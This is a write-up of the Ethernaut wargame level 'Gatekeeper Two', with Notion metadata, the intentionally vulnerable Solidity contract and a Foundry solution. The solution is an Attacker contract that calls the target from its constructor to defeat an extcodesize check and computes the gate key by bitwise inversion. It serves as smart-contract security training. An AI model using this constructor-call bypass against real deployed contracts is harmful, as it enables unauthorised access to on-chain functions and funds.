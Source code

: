 ```yaml
---
title: "Gatekeeper Two"
date: "2024-02-23"
lastmod: "2024-02-23T15:25:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
weight: 15
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/14"
next: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "d4a070f3-8b64-4143-a295-ecf4467fb7fa"
  created_time: "2024-02-23T12:55:00.000Z"
  last_edited_time: "2024-02-23T15:25:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel14.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-23"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 15
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/14"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Gatekeeper Two"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper Two"
          href: null
  url: "https://www.notion.so/Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
  public_url: null
UPDATE_TIME: "2024-02-23T21:51:06.414Z"
EXPIRY_TIME: "2024-02-23T22:51:01.957Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.


### Things that might help:

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given
address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```


Evm op codes: [https://www.evm.codes/?fork=shanghai](https://www.evm.codes/?fork=shanghai)


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/01b0d58a-bfc6-43bb-bfaf-44883de909fc/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240223%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240223T215101Z&X-Amz-Expires=3600&X-Amz-Signature=1c5aeeee34adee796552f65f856958e233b4f5745c434f811a4d69216a6549c5&X-Amz-SignedHeaders=host&x-id=GetObject)


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/fca58f0b-c3a4-4025-9aef-756a0e94ff30/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240223%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240223T215101Z&X-Amz-Expires=3600&X-Amz-Signature=b8ad3c51333a934838e41f5b4c7d0c728fe534652c57177384accc587a12187e&X-Amz-SignedHeaders=host&x-id=GetObject)


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,GatekeeperTwo} from "../src/14.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_14");

        vm.startBroadcast(deployerPrivateKey);
        GatekeeperTwo gate = GatekeeperTwo(addr);
        new Attacker(address(gate));
        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/console.sol";

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns (bool);
}

contract Attacker {
  GatekeeperTwo gatekeeper;

  constructor(address _gatekeeper) {
    gatekeeper = GatekeeperTwo(_gatekeeper);
    bytes8 value = bytes8(keccak256(abi.encodePacked(address(this))));
    bytes8 gateKey = ~value; 
    // gateKey ^ value == type(uint64).max
    gatekeeper.enter(gateKey);
  }
}
```

